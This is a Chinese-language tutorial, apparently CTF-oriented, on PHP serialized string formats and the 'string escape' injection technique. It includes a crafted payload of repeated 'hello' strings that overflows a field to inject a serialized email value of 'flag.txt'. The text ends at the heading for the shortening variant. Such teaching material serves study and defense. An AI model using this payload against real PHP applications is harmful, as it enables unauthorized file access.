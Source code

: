 print_r(serialize($usr));
```

得到的序列化对象是：

`a:2:{i:0;s:8:"username";i:1;s:8:"password";}`

```
$cars[0]="Volvo";
$cars[1]="BMW";
$cars[2]="Toyota";
print_r(serialize($cars));
```

得到的序列化对象是：

`a:3:{i:0;s:5:"Volvo";i:1;s:3:"BMW";i:2;s:6:"Toyota";}`

可以看到数组的类是 `a` 开头，但不是自定义命名，和平常见到的对自定义的类进行序列化后得到的字符串是不一样的。无数字下标的是比较直接简单一些，有数字下标的话，序列化字符串里会出现i类型数字，字符串这种的键值对

###### 对自定义对象的序列化

`O:6:"escape":3:{s:4:"name";s:210:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:5:"phone";a:1:{i:0;s:64:"1";s:5:"phone";a:1:{i:0;s:3:"456";}s:5:"email";s:8:"flag.txt";}`

O是类，随后的是自定义的名字，再者就是里面的内容。

##### 字符串逃逸的操作

分少变多或多变少的两种情况，都可以实现字符串逃逸。常发生在序列化字符串后程序直接对序列化字符串进行替换，会导致字符串数量增多或者减少。变多的方法简单一些，变少的方法稍微复杂一些。

操作如下：

###### 变多的操作（简单）

```O:6:"escape":3:{s:4:"name";s:3:"123";s:5:"phone";a:1:{i:0;s:3:"456";}s:5:"email";s:3:"789";}```

1. 差值分析
hello -> hacker 差值:+1

2. 构造希望的序列化字符串

(希望email出现flag.txt字符串)

（双@包裹的地方就是我们要填充payload的地方）

```O:6:"escape":3:{s:4:"name";s:3:"123";s:5:"phone";a:1:{i:0;s:3:"@@";}s:5:"email";s:8:"flag.txt";}```

3. 被修改的值后包括单引号看长度

(双@包裹的地方就是根据设想的payload要填充到字符串变多的地方)

`@";}s:5:"email";s:8:"flag.txt";}@31`

4. 构造payload

`hellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohellohello";}s:5:"email";s:8:"flag.txt";}`

两个参数，第一个参数要变长，把参数值顶到第二个参数上即可，基本没有什么需要太值得注意的操作细节。

###### 变短的操作（稍复杂）
```